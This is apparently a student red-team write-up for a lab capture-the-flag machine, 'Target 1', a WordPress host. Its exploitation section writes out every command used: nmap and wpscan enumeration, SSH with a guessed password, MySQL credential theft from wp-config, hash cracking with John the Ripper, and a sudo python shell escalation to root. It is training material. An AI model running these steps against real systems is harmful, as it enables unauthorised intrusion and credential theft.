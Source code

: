 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#Exposed-Services)
- [Critical Vulnerabilities](#Critical-Vulnerabilities)
- [Exploitation](#Exploitation)

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  1. <ins>**PORT ENUMERATION**</ins> (Severity: MEDIUM)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. <ins>**WEAK PASSWORD POLICY**</ins> (Severity HIGH)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. <ins>**MISCONFIGURED WEBSITE**</ins> (Severity: HIGH)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. <ins>**PYTHON ESCALATION**</ins> (Severity: MEDIUM-HIGH)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

#### 1. <ins>`flag1.txt`: *b9bbcb33ellb80be759c4e844862482d*</ins>
- **Exploit Used**
        - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`.


<img src="/Images/wpscan-users.png">
<img src="/Images/Flag1.png">

- Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    - Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
            - Password: *michael*
- SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in an HTML comment below the footer.
    		- Commands:
        		- `ssh michael@192.168.1.110`
        		- `pw: michael`
        		- `cd /var/www/html`
        		- `ls -l`
        		- `nano service.html`
#### <ins>**flag2.txt**: *fc3fd58dcdad9ab23faca6e9a3e581c*</ins>
- **Exploit Used**
      - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
      - Simple directory exploration found the 'flag2.txt' file plainly visible in the /var/www/ directory.
      - `cd /var/www/`
      - `ls -l`
      - `cat flag2.txt`
<img src="/Images/flag2.png">

#### <ins>**Flag3: afc01ab56b50591e7dccf93122770cd2**</ins>
- Exploit Used:
    - Viewing the wp-config.php file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


#### <ins>**Flag4: 715dea6c055b9fe3337544932f2941ce**</ins>
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

      	  	- Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
           		 - Commands: 
               			 - `ssh steven@192.168.1.110`
               			 - `pw:pink84`
               			 - `sudo -l`
               			 - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                			- `cd /root`
               			 - `ls`
               			 - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

<img src="/Images/flag4.png">